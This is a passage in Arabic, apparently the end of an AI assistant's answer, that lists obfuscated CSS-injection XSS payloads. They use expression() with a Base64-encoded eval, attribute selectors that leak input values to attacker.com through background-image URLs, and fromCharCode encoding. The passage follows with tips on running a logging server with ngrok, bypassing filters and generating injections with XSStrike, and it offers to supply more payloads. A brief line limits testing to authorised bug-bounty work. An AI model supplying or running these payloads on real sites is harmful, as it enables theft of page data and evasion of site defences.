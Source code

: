 5. حقن مع التعتيم:
- <div style="width:expression(eval(atob('YWxlcnQoJ1hTUycp')))">: يفك تشفير Base64 لتنفيذ تنبيه.
- <style>input[value="secret"] { background-image:url(//attacker.com/log?value=secret); }</style>: يستخدم صيغة URL مختصرة.
- <div style="background: url('http://attacker.com/log?d='+String.fromCharCode(100,111,99,117,109,101,110,116,46,100,111,109,97,105,110))">: يستخدم رموز ASCII.
- <style>input[value^="s"] { background-image:url('http://attacker.com/log?value='+encodeURIComponent('s')); }</style>: يشفر القيمة.
- <div style="width:expression(setTimeout('alert(\"XSS\")',1000))">: يؤخر تنفيذ التنبيه.



---

**نصائح إضافية**:
- **اختبار توافق المتصفح**: ركز على Internet Explorer لـ `expression()` والمتصفحات الحديثة (Chrome، Firefox) لتسريب البيانات عبر `background-image` أو selectors.
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو `ngrok` لتسجيل البيانات، وتأكد من دعم طلبات GET.
- **تجاوز الفلاتر**: جرب تغيير حالة الأحرف (مثل `BACKGROUND-IMAGE`)، استخدام خصائص غير شائعة (مثل `border-image`)، أو تعتيم الشيفرة.
- **اختبار نقاط الإدخال**: ركز على حقول النصوص، خصائص `style`، تحميل ملفات CSS، ومعلمات URL التي تُعرض كنمط.
- **الأدوات**: استخدم **Burp Suite** لمراقبة الطلبات، **XSStrike** لتوليد الحقن، أو **Selenium** لمحاكاة التفاعل مع الحقن.
- **القيود**: تذكر أن بعض الحقن (مثل تسريب `document.cookie` عبر `background-image`) قد تُحظر بسبب قيود المتصفح الحديث أو CSP.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Stored XSS Payloads" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل CSS XSS في تطبيقات معينة)، أخبرني وسأقدم ردًا مخصصًا!